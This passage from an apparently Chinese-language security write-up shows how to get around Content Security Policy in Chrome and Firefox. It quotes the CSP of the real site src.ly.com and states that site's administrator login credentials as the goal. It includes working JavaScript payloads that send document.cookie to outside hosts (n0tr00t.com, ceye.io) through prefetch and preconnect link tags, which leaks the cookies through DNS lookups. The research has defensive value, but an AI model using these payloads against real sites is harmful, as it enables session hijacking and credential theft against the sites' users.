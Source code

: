         var n0t = document.createElement("link");
        n0t.setAttribute("rel", "prefetch");
        n0t.setAttribute("href", "//1J38ax.chromecsptest.test.n0tr00t.com/?" + document.cookie);
        document.head.appendChild(n0t);
        </script>
    </body>
    </html>

PageRequestResult :

![](http://ww4.sinaimg.cn/large/c334041bgw1f96ucicawbj21kw09vabc.jpg)

#### 0x05 Bypass Firefox CSP

如果我们使用前面的 Prefetch 等标签在 Firefox 上是肯定传输不出去数据的，因为 Firefox 浏览器有着较高的  CSP 规范执行，所以我们可以使用其他属性来对 Firefox 上 CSP 进行绕过，虽然这些属性也已经申请加入规范，但目前仍可利用，下面来看目前 src.ly.com 的 CSP 规则： 

    content-security-policy:
    default-src *; script-src 'self' bi-collector.oneapm.com *.ly.com hm.baidu.com sec-pic-ly.b0.upaiyun.com  img1.40017.cn captcha.guard.qcloud.com  'unsafe-inline' 'unsafe-eval'; style-src 'self' *.ly.com sec-pic-ly.b0.upaiyun.com *.guard.qcloud.com 'unsafe-inline'; img-src 'self' sec-pic-ly.b0.upaiyun.com  hm.baidu.com  https://static.wooyun.org http://static.wooyun.org *.guard.qcloud.com  data: ; media-src 'self' *.ly.com *.40017.cn;font-src 'self' sec-pic-ly.b0.upaiyun.com data:

1. script-src 'self' bi-collector.oneapm.com *.ly.com hm.baidu.com sec-pic-ly.b0.upaiyun.com  img1.40017.cn captcha.guard.qcloud.com  'unsafe-inline' 'unsafe-eval';  
2. style-src 'self' *.ly.com sec-pic-ly.b0.upaiyun.com *.guard.qcloud.com 'unsafe-inline'; 
3. img-src 'self' sec-pic-ly.b0.upaiyun.com  hm.baidu.com  https://static.wooyun.org http://static.wooyun.org *.guard.qcloud.com  data: ;
4. media-src 'self' *.ly.com *.40017.cn;
5. font-src 'self' sec-pic-ly.b0.upaiyun.com data:;

我们的目标是 src.ly.com 的管理员登录凭证，通过细看上面的 CSP 规则我们可以发现存在很多问题，例如 *.40017.cn, unsafe-inline, unsafe-eval, static.wooyun.org 等多个不可控的”信任“外部源。现在我们拥有平台存储型跨站，但由于没有像之前 Dota 社区的用户交互性（我们的目的也不是蠕虫），当然你可以通过获取 Document.cookie 并使用站内私信功能发送给你，然后达到目标，只不过听起来不是那么可靠。

script 的规则满足我们的条件，我们可以使用多个方法来绕过限制创建标签偷取数据：

 - Preconnect
 - DNS-Prefetch
 - …

Payload:

    dc  = document.cookie;
    dcl = dc.split(";");
    n0 = document.getElementsByTagName("HEAD")[0];

    for (var i=0; i<dcl.length;i++)
    {
        console.log(dcl[i]);
        n0.innerHTML = n0.innerHTML + "<link rel=\"preconnect\" href=\"//" + escape(dcl[i].replace(/\//g, "-")).replace(/%/g, "_") + '.' + location.hostname.split(".").join("") +  ".vqn3j8.ceye.io\">";
    }

收取获得 DNS 查询记录：
